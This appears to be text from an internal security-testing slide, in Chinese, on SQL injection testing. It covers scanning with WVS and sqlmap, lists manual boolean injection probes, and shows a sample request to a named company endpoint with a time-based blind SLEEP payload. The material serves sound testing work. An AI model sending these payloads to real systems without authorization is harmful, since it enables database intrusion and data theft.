

SQL注入——测试方法
1
portal扫描

portal提交CGI扫描的时候默认使用WVS扫描，但是WVS对于post参数的检测效果较差
填写post参数，就会启动sqlmap进行扫描
2
sqlmap工具扫描
专用于检测SQL注入的扫描工具，效果不错
渗透测试工具sqlmap基础教程：https://blog.csdn.net/zgyulongfei/article/details/41017493
3
手工测试
AND 1=1 和 AND 1=2
' AND '1'='1 和 ' AND '1'='2
" AND "1"="1 和 " AND "1"="2
') AND ('1')=('1 和 ') AND ('1')=('2
") AND ("1")=("1 和 ") AND ("1")=("2

测试对象：json参数
http://wqadmin.jd.com/shopgroup/source/php/cgi/SaveActiveInfo.php?callback=saveActive&s_active_rule={"i_rule_type":"1"}&i_active_type=5&s_active_name=你印象最深告白送的什么礼物？&start_time=2018-11-16 09:59:00&end_time=2018-11-16 10:00:00&i_business_id=14220632985172864979 AND (SELECT * FROM (SELECT(SLEEP(5)))AnqO)&s_prize_info=[{"from":1,"to":10,"prizeName":"脱单专属礼盒","prizeType":1},{"from":11,"to":20,"prizeName":"珠宝首饰盒","prizeType":1}]&_=1542332814670